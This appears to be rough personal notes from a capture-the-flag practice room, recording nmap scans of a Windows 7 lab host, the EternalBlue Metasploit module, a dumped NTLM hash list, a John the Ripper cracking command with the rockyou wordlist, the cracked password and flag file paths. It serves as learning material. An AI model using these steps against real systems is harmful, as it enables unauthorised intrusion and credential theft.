


nmap 10.10.196.52        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-12 13:52 EDT
Nmap scan report for 10.10.196.52
Host is up (0.44s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 31.74 seconds

this room is for more about parctice

─$ nmap -sC -sV 10.10.196.52                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-12 13:58 EDT
Stats: 0:02:23 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 14:01 (0:00:10 remaining)
Stats: 0:02:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 14:01 (0:00:14 remaining)
Nmap scan report for 10.10.196.52
Host is up (0.44s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-06-11T17:47:11
|_Not valid after:  2023-12-11T17:47:11
|_ssl-date: 2023-06-12T18:01:51+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-12T18:01:40+00:00
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h14m10s, median: -1s
| smb2-time: 
|   date: 2023-06-12T18:01:39
|_  start_date: 2023-06-12T17:47:10
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02354c8bbc37 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-12T13:01:39-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required

└─$ nmap -sC -sV --script vuln 10.10.196.52

exploit/windows/smb/ms17_010_eternalblue 

hash dump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

john --format=nt --wordlist=<path-to-wordlist> <hash>

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash

alqfna22

      37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt  34            2019-03-17 15:32:48 -0400
c:\flag1.txt                          24            2019-03-17 15:27:21 -0400

